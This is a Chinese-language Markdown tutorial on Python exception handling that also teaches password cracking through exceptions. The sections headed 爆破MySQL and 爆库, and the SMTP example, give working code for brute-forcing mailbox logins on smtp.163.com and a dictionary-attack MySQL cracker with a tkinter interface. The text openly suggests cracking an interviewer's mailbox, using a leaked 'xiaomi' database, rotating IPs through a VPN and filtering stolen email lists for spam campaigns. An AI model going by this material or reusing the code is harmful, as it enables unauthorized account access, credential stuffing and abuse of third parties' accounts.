

# Python Exception

<!-- TOC -->

- [Python Exception](#python-exception)
    - [Error vs Exception](#error-vs-exception)
    - [爆破MySQL](#爆破mysql)
    - [Raise Exception(diy exception)](#raise-exceptiondiy-exception)
    - [`with ... as`](#with--as)
    - [custom Exception](#custom-exception)
    - [Assert](#assert)
    - [爆库](#爆库)
    - [Exception dealing(预案处理)](#exception-dealing预案处理)
        - [异常处理的过程中raise异常](#异常处理的过程中raise异常)

<!-- /TOC -->


## Error vs Exception

- Error: 一定会发生
- Exception: 有时候发生，有时候不发生

> `try...except...`不引入新的作用域  
> `except`抓不住`IndentationError`, `SyntaxError`, 书写错误  
> custom Exception避免与系统自带的`Exception`同名;

```python
#Snytax
try:
     Normal execution block
except A:
     Exception A handle
except B:
     Exception B handle
except:
     Other exception handle
else:
     if no exception,get here
finally:
     print("finally") 
```

> 1. 如果在执行try子句的过程中发生了异常，那么try子句余下的部分将被忽略  
> 2. 如果一个异常没有与任何的except匹配，那么这个异常将会传递给上层的try中

```python
#simple example
num1=10
num2=0
try:
    print(num1/num2)
except ValueError as error1:
    print(f"Exception:{error1}")
except ZeroDivisionError as error2:
    print(f"Exception:{error2}")
except:
    print("other Exception not handled")
else:
    print("if no exception,get here")
finally:
    print("write to log, or clean, or close file")

print("Hello,world")
```

```bash
#output, num2=0
Exception:division by zero
write to log, or clean, or close file
Hello,world

#output, num2=5
2.0
if no exception,get here
write to log, or clean, or close file
Hello,world
```

利用Exception**暴破解邮箱**(比如爆破面试官的邮箱)，还可以用了验证52G网易邮箱还有多少是可以使用的

有两种思路:对于爆破一个库来说，因为有相同的密码，没有相同的用户；还要分析数据量

- 拿一个密码，然后循环用户
- 拿一个用户，然后循环密码

```python
import smtplib

isOK=False
password="tsinghua88480"#尚未加入循环

try:
    SMTPsever="smtp.163.com"#服务器
    Sender="yincheng8848@163.com" #发送邮件的地址

    mailsever=smtplib.SMTP(SMTPsever,25)#邮件服务器25端口
    mailsever.login(Sender,password)#登陆
    
    isOK = True
except smtplib.SMTPAuthenticationError:
    isOK = False
finally:
    mailsever.quit()

if  isOK:
    print(password,"right")
else:
    print(password,"wrong")
```

专业的界面用PyQt，一般的界面用tkinter

```python
#file exception
try:
    file =open("1.txt","rb")#有可能删除文件导致打开失败
    mystr=file.readline().decode("utf-8")#有可能因为编码，decode失败
    mylist=mystr.split(" # ")
    num=eval(mylist[0]) #有可能第一个是string,导致转换失败
    print(mystr,num)
    file.write("12321")#上面是rb，所以这个不允许
except FileNotFoundError:
    print("文件没有找到")
except NameError: #特定的异常
    print("转换失败")
except:#除了上述之外的所有异常。
    print("处理其他所有异常")
else:#没有异常的情况
    print("没有异常执行这里")
finally:#有没有异常，无论如何都执行
    print("有没有异常都执行这一句")
    file.close()
```

## 爆破MySQL

下载[MySQL](https://dev.mysql.com/downloads/installer/)并安装Server, 然后将xiaomi文件夹，复制到`C:\ProgramData\MySQL\MySQL Server 5.7\Data`, 然后使用[Navicat](http://blog.csdn.net/chandddlleerr/article/details/74606548)连接，然后导出为`.txt`

```bash
#xiaomi文件夹结构
Data/xiaomi/
            xiaomi_com.frm
            xiaomi_com.MYD
            xiaomi_com.MYI
```

爆破的原理在于，连接的时候需要输入密码，用字典去爆破那个密码就可以了,密码错误会Exception,根据exception来博阿婆；上面的navicat也是可以连接的，但是不能跑字典，所以用下面的python脚本来爆破；

```bash
pip3 list
pip3 install pymysql --user
pip3 uninstall pymysql
```

因为数据库没有验证码，比如之前的SMTP那个也是， 最困难的就是破解密码

```python
#test
import pymysql

db=pymysql.connect("127.0.0.1","root","111111")#host,account,password
db.close()
```

```python
import pymysql
try:
    db=pymysql.connect("127.0.0.1","root","111111")
    print("密码正确")
except pymysql.err.OperationalError:
    print("密码错误")
else:
    #用于处理正确的结果
    print("没有错误的时候执行")
finally:
    db.close()
```

## Raise Exception(diy exception)

```python
def makename(name):
    if  name.find("SB")!=-1:
        print("There is a SB")
        raise NameError #提示异常
    print("NO SB")
    return name

try:
    print(makename("james"))
    print(makename("you are SB!"))
except:
    print("Catch the error")
```

```bash
#output
NO SB
james
There is a SB
Catch the error
```

## `with ... as` 


```python
# #文件没有关闭
# for line  in open("simpleCSDN.txt","rb"):
#     line=line.decode("gbk","ignore")
#     print(line,end="")

#with open as file, 自动关闭，
with  open("simpleCSDN.txt","rb") as file:
    for line in  file:
        line = line.decode("gbk", "ignore")
        print(line, end="")
```

## custom Exception

```python
#simple example
class Box:
    def __init__(self, x,y,z):
        if x>10 or x<2:
            raise 1
        if y>10 or y<2:
            raise 2
        if z>10 or y<2:
            raise 3
        self.x=x
        self.y=y
        self.z=z

try:
    box1=Box(1,12,55)
except:
    print("error")#可以提示，无法对应的处理，因为except后面要是一个class，需要用到继承
##下面这几个无法处理
# except 1:
#     print("x error")
# except 2:
#     print("y error")
# except 3:
#     print("z error")
finally:
    print("finish")
```

```python
#good example
class sizeException(Exception):
    def __init__(self, errorValue):
        self.value=errorValue
    def __str__(self):
        return self.value


class Box:
    def __init__(self, x,y,z):
        if x>10 or x<2:
            raise sizeException("x size error")
        if y>10 or y<2:
            raise sizeException("y size error")
        if z>10 or y<2:
            raise sizeException("z size error")
        self.x=x
        self.y=y
        self.z=z

try:
    box1=Box(1,20,19)
except sizeException as e1:#抓到的是第一个,as是把一个数据当作一个对象
    print(e1.value)
    print(e1)#因为上面的__str__缘故
finally:
    print("finish")
```

```bash
#output
x size error
x size error
finish
```

## Assert

自定义给编译器提示错误，不成立就执行

```python
#simple example
def myDiv(num1, num2):
    assert(num2!=0),"num2 cannot be 0"
    return num1/num2

print(myDiv(10,0))
```

```bash
#output
AssertionError: num2 cannot be 0
```

```python
#another example
def myAdd(num1,num2):
    assert(type(num1)==type(num2)),"two argument type must be the same"
    return num1+num2

print(myAdd("grey",10))
```

```bash
#output
AssertionError: two argument type must be the same
```


## 爆库

```bash
#文件结构
Project/
        CrackPanel.py
        CrackingView.py
        MySQLCrack.py
```



```python
#CrackPanel.py
import tkinter
import CrackingView

class CrackPanel(object):
    def __init__(self):
        self.root=tkinter.Tk()
        self.root.geometry("300x150+300+100")
        #3x3 self.root grid
        tkinter.Grid.rowconfigure(self.root,0,weight=1)
        tkinter.Grid.rowconfigure(self.root,1,weight=1)
        tkinter.Grid.rowconfigure(self.root,2,weight=1)
        tkinter.Grid.columnconfigure(self.root,0,weight=1)
        tkinter.Grid.columnconfigure(self.root,1,weight=3)
        tkinter.Grid.columnconfigure(self.root,2,weight=1)
        #Add 2 Labels
        self.label1=tkinter.Label(self.root,text="IP: ")
        self.label2=tkinter.Label(self.root,text="User: ")
        self.label1.grid(row=0,column=0)
        self.label2.grid(row=1,column=0)
        #Add 2 Entry
        self.entry1=tkinter.Entry(self.root)
        self.entry2=tkinter.Entry(self.root)
        self.entry1.grid(row=0,column=1,sticky=tkinter.W+tkinter.E)
        self.entry2.grid(row=1,column=1,sticky=tkinter.W+tkinter.E)
        #Add 1 Button
        self.btn1=tkinter.Button(self.root,text="Crack",command=self.ShowCrackingView)
        self.btn1.grid(row=2,column=1,sticky=tkinter.W+tkinter.E)
    def Show(self):
        self.root.mainloop()
    def ShowCrackingView(self):
        crackingviewer=CrackingView.CrackingView(self.entry1.get(),self.entry2.get())
        crackingviewer.Show()

#for test
crackpanel=CrackPanel()
crackpanel.Show()
```

```python
#CrackingView.py
import tkinter
import MySQLCrack

class CrackingView(object):
    def __init__(self, ip, user):
        self.root=tkinter.Tk()
        self.root.geometry("300x600+600+100")
        #2x3 grid
        self.root.rowconfigure(0,weight=1)
        self.root.rowconfigure(1,weight=9)
        self.root.columnconfigure(0,weight=1)
        self.root.columnconfigure(1,weight=3)
        self.root.columnconfigure(2,weight=1)
        #add a Button
        self.btn1=tkinter.Button(self.root,text="Crack Now!",command=self.StartCrack)
        self.btn1.grid(row=0,column=1,sticky=tkinter.W+tkinter.E+tkinter.N+tkinter.S)
        #add a Listbox
        self.listbox1=tkinter.Listbox(self.root)
        self.listbox1.grid(row=1,column=0,columnspan=3,sticky=tkinter.W+tkinter.E+tkinter.N+tkinter.S)
        #add cracker
        self.cracker=MySQLCrack.MySQLCrack(ip,user)
    def Show(self):
        self.root.mainloop()
    def AddData(self, dataStr):
        self.listbox1.insert(tkinter.END,dataStr)
        #listbox只能装256的，有时候需要用到clear()函数
    def StartCrack(self):
        self.cracker.Crack(self)#居然是将自己传入
# #for test
# crackingviewer=CrackingView("127.0.0.1","root")
# crackingviewer.Show()
```

```python
#MySQLCrack.py
import pymysql
import codecs

class MySQLCrack(object):
    def __init__(self, ip, user):
        self.file=codecs.open("passwordDict.txt","rb","utf-8","ignore")
        self.ip=ip
        self.user=user
    def Crack(self, crackingview):
        while True:
            line=self.file.readline()
            resStr=self.StrCompare(line)
            crackingview.AddData(resStr)#Add to CrackingView
            #找到后退出
            if resStr.find("true")!=-1:
                break
            #搜完退出
            if not line:
                break
    def StrCompare(self, password):
        isOK=False
        try:
            db=pymysql.connect(self.ip,self.user,password)
        except pymysql.err.OperationalError:
            isOK=False
        else:
            isOK=True
        finally:
            db.close()
        #
        if isOK:
            return "password true:"+password
        else:
            return "password wrong:"+password
    def __del__(self):
        self.file.close()
```

- 邮箱工具爆破(根据邮箱扫密码),有可能需要用vpn换ip
- 扫描工具，根据密码扫用户名

营销工具，还可以加上发邮件，发短信

邮箱清洗工具(找出可以登录的)

用那些清洗出来的邮箱进行多线程，多进程，然后进行营销

异常用途:

- 密码破解
- 程序的稳定性

## Exception dealing(预案处理)

```python
try:
    print(num)
except (NameError,FileNotFoundError):#捕获多个exception
    print("namerror or file not found")
```

```python
try:
    print(num)
except:#捕获多个exception
    print("some error")
```

```python
try:
    print(num)
except (NameError,FileNotFoundError):#捕获多个exception
    print("namerror or file not found")
except Exception:
    print("other error")
```

```python
try:
    11/0
except (NameError,FileNotFoundError):#捕获多个exception
    print("namerror or file not found")
except Exception as e:
    print(e)
```

其实`Ctrl+C`也是一个异常`KeyboardInterrupt`

```python
def test1():
    print("---test1-1")
    print(num)
    print("---test1-2")
def test2():
    print("---test2-1")
    test1()
    print("---test2-2")
def test3():
    try:
        print("---test3-1")
        test2()#test1()没有try,所以会自动传递向上一级传递
        print("---test3-2")
    except Exception as e:
        print(e)

test3()
```

```python
class ShortInputException(Exception):
    def __init__(self, length, atleast):
        # super().__init__()#可以不用
        self.length=length
        self.atleast=atleast

def main():
    try:
        myStr="grey"
        if len(myStr)<6:
            raise ShortInputException(len(myStr),6)
    except ShortInputException as e:#ShortInputException其实就是类名，e其实就是对抛过来的对象的引用
        # print(e)#(4,6)
        print(f"your length is {e.length},the string's length is {e.atleast} at least")
    else:
        print("no exception")

main()#your length is 4,the string's length is 6 at least
```

### 异常处理的过程中raise异常

比如出现了某个异常，先写到log日志，然后再rasie抛给上级，该怎么处理，怎么处理

```python
class Test(object):
    def __init__(self, switch):
        self.switch=switch
    def calc(self, a,b):
        try:
            return a/b
        except Exception as e:
            if self.switch==True:
                print("enable the switch, catch the exception:")
                print(e)
            else:
                #在给外部处理之前，在内部完成一定的操作
                raise

a=Test(True)
a.calc(11,0)
print('-'*15)
a.switch=False
a.calc(11,0)
```

```python
''
[]
{}
None
0
False
#在判断时候，都表示False
```